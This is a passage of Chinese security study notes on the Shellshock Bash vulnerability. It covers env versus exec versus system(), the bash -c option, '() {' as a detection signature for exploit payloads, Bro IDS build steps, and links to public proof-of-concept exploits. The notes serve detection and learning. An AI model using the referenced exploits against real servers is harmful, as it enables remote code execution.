用 ``env`` 方式设置环境变量再执行 ``grep`` 对应的是创建了2个进程：(1) ``env`` 和 (2) ``grep`` （事实上，第2个进程会替代第1个进程）。但从 grep 进程的角度来看，以下2种方式的执行结果没有差别。尽管如此，如果需要在 Bash 进程外或不希望先启动一个 shell （例如，使用高级语言的 ``exec()`` 类函数调用时就可以使用 ``env`` 的方式来启动外部程序而不是用 ``system()``。注意这里的高级语言的 ``exec()`` 和 ``system()`` 方式执行外部程序的区别主要在于：``system()`` 执行外部程序需要先启动一个shell子进程，再在shell子进程中执行外部程序。而``exec()`` 执行外部程序则不需要先启动一个shell子进程，是直接执行外部程序）。

```bash
env GREP_OPTIONS='-v' grep one test.txt
GREP_OPTIONS='-v' grep one test.txt
```

### bash 的 -c 参数作用

以下内容摘自 ``Bash`` 的 man 手册页

> If the -c option is present, then commands are read from the first non-option argument command_string.  If there are arguments after  the command_string, they are assigned to the positional parameters, starting with $0.

# 漏洞利用检测

根据 [CVE-2014-6271的漏洞原理分析](#cve-2014-6271-1)，我们知道 ``() {`` 是该漏洞利用 **无法绕过** 的一个漏洞利用 payload 关键字。

## bro

```bash
# 下载bro-2.5.2源代码编译安装，Ubuntu 16.04.3目前官方APT源里的是2.4.1版本
wget https://www.bro.org/downloads/bro-2.5.2.tar.gz

# 安装bro源码编译所需依赖lib
# 经验证，使用系统自带 python 环境可以正常编译，但如果使用 pyenv 或 pipenv 方式安装的 python 环境编译bro源码在make时会报错异常退出
sudo apt update && sudo apt install -y cmake make gcc g++ flex bison libpcap-dev libssl-dev python-dev swig zlib1g-dev

# 解压缩源代码
tar xf bro-2.5.2.tar.gz

cd bro-2.5.2

./configure
make
sudo make install
sudo make install-aux
```

## suricata


# 漏洞利用的其他形式

[PHP < 5.6.2 - 'Shellshock' 'disable_functions()' Bypass Command Injection](https://www.exploit-db.com/exploits/35146/)

上面这个例子很好的说明了：一个漏洞的出现，往往会带来很多意想不到的创新利用方式。一个原本安全的防御机制（如这里的PHP的 ``函数黑名单机制`` 原本可以对命令注入攻击实现漏洞利用缓解效果）可能会因为一个第三方软件的漏洞而被绕过。这就是漏洞利用的艺术，这就是实际网络攻击往往不是单一漏洞利用过程的真实例子证明。

# 参考资料

* [Shellshock \(software bug\)](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29)
* [Shellshocker - Repository of "Shellshock" Proof of Concept Code](https://github.com/mubix/shellshocker-pocs)
* [GNU » Bash : Security Vulnerabilities Published In 2014](https://www.cvedetails.com/vulnerability-list/vendor_id-72/product_id-21050/year-2014/GNU-Bash.html)
* [Bash 漏洞是什么级别的漏洞，有什么危害，具体如何修复？](https://www.zhihu.com/question/25522948)
* [Bash远程代码执行漏洞“破壳”（CVE-2014-6271）分析](http://www.antiy.com/response/CVE-2014-6271.html)
* [BurpSuite主动和被动扫描插件 ActiveScan++，可以检测 CVE-2014-6271/CVE-2014-6278 存在性](https://github.com/albinowax/ActiveScanPlusPlus)
* [ShellShock attack and exploit detector for Bro.](https://github.com/corelight/bro-shellshock)
* [p0wnage and detection with Bro](https://www.bro.org/brocon2015/slides/sharma_p0wnage.pdf)

